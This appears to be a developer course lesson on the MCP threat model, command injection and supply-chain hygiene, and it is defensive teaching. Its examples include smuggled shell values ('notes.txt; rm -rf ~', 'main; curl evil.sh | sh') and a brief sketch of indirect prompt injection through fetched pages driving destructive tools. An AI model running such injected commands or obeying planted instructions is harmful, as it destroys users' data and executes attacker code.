

# 06-1 · Threat model & supply chain

> **Level:** Intermediate→Advanced · **Prerequisites:** [05 · Remote & authenticated servers](../05_remote_and_auth/README.md)
> **Time:** ~45 min · **Verified:** 2026-08-08 (OWASP LLM Top 10 2025 · MCP spec 2026-07-28)

## Why this matters

When a host launches your MCP server over stdio, it starts your process on the user's machine with the user's privileges. That is **arbitrary code execution by design** — fine when the server is yours, a real threat when it's a stranger's from GitHub. In 2026 a class of MCP **command-injection** flaws (e.g. **CVE-2026-30623**) turned "I installed a server" into "I ran code an attacker chose." Before you write a single control, you need a clear-eyed model of what you're actually trusting.

---

## The trust model: a server is trusted code

Function calling gave the model a *menu*. MCP gives the model a *connection to running code you agreed to trust*. Those are different in kind. When you add a server, two grants happen at once:

1. **You run its code** (for stdio servers — it's a local subprocess) or **you route requests to it** (for HTTP servers).
2. **You grant the model its tools** — every capability that server advertises becomes something the model can invoke on your behalf.



The boundary is the thing to keep sharp. Inside it: code and credentials you own. Crossing it inbound: **data**, which you never control and must never trust. Confusing "trusted server" (the code) with "trusted output" (the data it returns) is the root mistake this whole section exists to prevent.

---

## stdio servers are arbitrary code execution — by design

A stdio server isn't sandboxed by the protocol. The host does the equivalent of:

```python
# What a host does to start a stdio server (simplified).
import subprocess

proc = subprocess.Popen(
    ["python", "-m", "some_third_party.mcp_server"],  # ← their code, your machine
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
)
# From here the server can read your files, open sockets, spend your tokens —
# it runs with exactly the privileges of the user who launched the host.
```

There is no magic containment here. Installing a stdio MCP server is identical, security-wise, to `pip install` + run from an unknown author. Treat it that way: **read the source, pin the version, prefer reputable publishers, and sandbox anything you don't fully trust** (lesson 06-3 shows how).

---

## The CVE-2026-30623 class: never spawn a command from untrusted input

**What it was, accurately:** CVE-2026-30623 was an *authenticated* command-injection in a product's **MCP-server-creation feature** — the part that lets an operator define a new stdio server by specifying its launch `command`. That `command` string was passed to a subprocess **unsanitized**, so an authenticated user who could define a server could get arbitrary commands executed on the host. It was a flaw in *that product's handling of a config field*, **not** in the MCP protocol itself.

The lesson generalizes far past that one product. Any time your server builds a command line from input it didn't generate, you've recreated the bug:

```python
import subprocess

# ❌ NEVER — builds a shell string from caller-supplied input.
#    filename = "notes.txt; rm -rf ~"  →  the shell happily runs both.
def bad_open(filename: str) -> bytes:
    return subprocess.check_output(f"cat {filename}", shell=True)  # command injection

# ✅ Pass an ARGUMENT LIST, no shell. Args are data, never parsed as shell syntax.
#    And validate at the trust boundary before you even get here.
def safe_open(filename: str) -> bytes:
    if "/" in filename or filename.startswith("."):     # reject path tricks
        raise ValueError("bad filename")
    return subprocess.check_output(["cat", "--", filename], shell=False)  # no shell = no injection
```

Two rules fall out of this:

- **Never pass untrusted input into a spawned command** — no `shell=True` on anything a caller (or the model) influenced. Use an argument list.
- **Never trust a random third-party server** with the ability to define what gets spawned. The vulnerability was "user-controlled `command` field → subprocess"; the fix is the same shape as above — treat that field as untrusted data, validate it, and don't hand it to a shell.

---

## The attack surface grows when you connect models to tools + data

A plain chatbot has a small surface: it reads text, writes text. The moment you give a model **tools** (actions with side effects) *and* feed it **data from outside** (fetched pages, DB rows, documents), you've created a control loop an attacker can try to steer:

- **Data in** can carry instructions (indirect prompt injection — lesson 06-2).
- **Tools out** can do damage (delete, send, spend, execute).
- **The model** connects the two, and it has no built-in notion of "this text is only data."

So the threat isn't one bug; it's the *combination*. An attacker who can get text into the model's context (by planting it on a page your `fetch_url` tool reads) and a tool with side effects (your `delete_all_notes`) has everything they need. Every capability you expose widens this surface, which is why "expose the minimum" (least privilege, 06-3) is a security control, not just tidiness.

---

## Supply-chain hygiene for MCP

You will install servers you didn't write. Do it like you'd add any dependency that runs with your privileges:

- **Pin exact versions.** A floating `latest` means an attacker who compromises the package can push code you'll run tomorrow. Pin and update deliberately.
- **Review before first run**, especially anything that shells out, fetches URLs, or reads broad filesystem paths.
- **Prefer reputable / signed publishers** and official registries over a stranger's fork.
- **Maintain an allowlist of approved servers** for your org — don't let any server get wired into a host ad hoc.
- **Sandbox untrusted servers** (container, restricted user, no ambient credentials) — cover in 06-3.
- **Watch for typosquats and lookalikes** in server names, the same way you would for PyPI packages.

The mindset: *trusting a server is trusting its code and its updates, forever.* Budget for that trust the way you budget for any production dependency.

---

## Recap & next

- ✅ Adding a server grants **two** things at once: you run its **code** and you grant the model its **tools**.
- ✅ **stdio = arbitrary code execution by design** — no protocol-level sandbox; treat it like running an unknown package.
- ✅ **CVE-2026-30623** was an authenticated command-injection in a product's *server-creation feature* (unsanitized `command` field → subprocess), **not** a protocol flaw — the lesson is *never spawn a command from untrusted input* and *never trust a random server*.
- ✅ Connecting **tools + external data** is what creates the steerable control loop — the surface, not a single bug.
- ✅ **Supply-chain hygiene:** pin, review, prefer reputable publishers, allowlist, sandbox.
- ✅ Self-check: a teammate says "we're safe, the server is open source and I read the README." What did they *not* verify, and why does it matter?

→ Next: **[06-2 · Prompt injection through tools](02_prompt_injection_through_tools.md)**

## Exercises

1. Explain, in two sentences, the difference between trusting a *server* and trusting its *output* — and give one concrete example of getting each wrong.

<details>
<summary>Solution</summary>

Trusting a **server** means you accept running its code and granting the model its tools (a supply-chain decision — get it wrong by running an unreviewed stdio server that exfiltrates your files). Trusting its **output** means treating the data it returns as instructions or facts (a prompt-injection decision — get it wrong by letting a fetched page's hidden "delete everything" text drive a tool call). You can trust your *own* server's code completely and still must never trust the *external data* it returns.
</details>

2. Here's a tool that runs a git command with a caller-supplied branch name. Find the vulnerability and rewrite it safely.

```python
def checkout(branch: str) -> str:
    return subprocess.check_output(f"git checkout {branch}", shell=True, text=True)
```

<details>
<summary>Solution</summary>

`shell=True` + string interpolation = command injection. `branch = "main; curl evil.sh | sh"` runs the attacker's command. Fix: argument list, no shell, and validate the branch name.

```python
import re, subprocess

def checkout(branch: str) -> str:
    if not re.fullmatch(r"[A-Za-z0-9._/-]+", branch):   # allowlist of legal chars
        raise ValueError("illegal branch name")
    return subprocess.check_output(
        ["git", "checkout", "--", branch], shell=False, text=True,
    )
```

This is the same shape as the CVE-2026-30623 fix: treat the field as untrusted data, validate it, never hand it to a shell.
</details>

3. You want to install a popular third-party MCP server that shells out to `ffmpeg`. List three supply-chain precautions you'd take before wiring it into a host that has your production cloud credentials in its environment.

<details>
<summary>Solution</summary>

Any three: pin an exact reviewed version (no `latest`); read the source paths that build the `ffmpeg` command line to confirm inputs are validated and no `shell=True`; run it under a restricted user / container with **no** production credentials in scope (least privilege — it doesn't need them); prefer the official signed package over a fork; verify the publisher isn't a typosquat. The key realization: a server that shells out with your prod credentials in the environment is a single injection away from using them.
</details>
